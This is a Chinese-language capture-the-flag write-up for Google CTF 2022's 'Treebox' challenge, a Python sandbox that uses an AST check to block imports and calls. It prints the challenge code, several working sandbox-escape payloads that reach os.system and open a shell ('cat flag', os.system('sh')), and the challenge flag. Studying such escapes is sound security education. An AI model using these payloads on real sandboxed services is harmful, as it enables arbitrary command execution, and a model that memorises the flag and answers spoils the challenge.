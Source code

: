 # TREEBOX

*I think I finally got Python sandboxing right.*

*[Attachment](https://storage.googleapis.com/gctf-2022-attachments-project/17f98f8c9c9f8089ab3a35e94de752582253c3784637fe6ef6a561c12b817fcd7acf05a4573bff2cd43247f8e5263200aa29745605ae2719de774160bb21e301) `treebox.2022.ctfcompetition.com 1337`*

---

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

阅读源码,可以发现:

* `flag`在当前工作目录下一个名为`flag`的文件
* 我们可以通过`exec`执行任意代码,但必须通过`verify_secure`函数的检查
* `verify_secure`使用`ast`模块进行分析,不能有显式的函数调用和导入语句
* `os`和`sys`模块可用

思路:

* `os`模块已经导入,我们可以通过`os.system()`方法来执行系统命令
* 借助于Python机制,通过非显式的方式地来调用函数,如内置函数、重载运算符、解释器Hook

我的解法:

在python中使用`in`运算符时,默认会调用`__contains__`方法,并且会将需要判断的对象作为形参传入;

所以我们可以用`os.system`覆盖现有的python对象/类上的`__contains__`方法,然后通过运算符来调用`system`函数.

```python
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```

其他解法:

1. 装饰器

   ```python
   @exec
   @input
   class X:
     pass
   ```

2. 异常

   ```python
   class MyException(Exception):
     def __str__(self):
       return 'cat flag'
   
   sys.stdout.write=os.system
   sys.stderr.write=os.system
   
   raise MyException   
   ```

   ```python
   class X:
       def __init__(self, a, b, c):
           self += "os.system('sh')"
       __iadd__ = exec
   sys.excepthook = X
   1/0
   ```

3. 元类

   ```python
   # This will define the members on the "sub"class
   class Metaclass:
       __getitem__ = exec # So Sub[string] will execute exec(string)
   # Note: Metaclass.__class__ == type
       
   class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
       pass # Nothing special to do
   
   assert isinstance(Sub, Metaclass)
   sub['import os; os.system("sh")']
   ```



其他Writeup

* [GCTF 2022 Treebox](https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/)

**flag:**`CTF{CzeresniaTopolaForsycja}`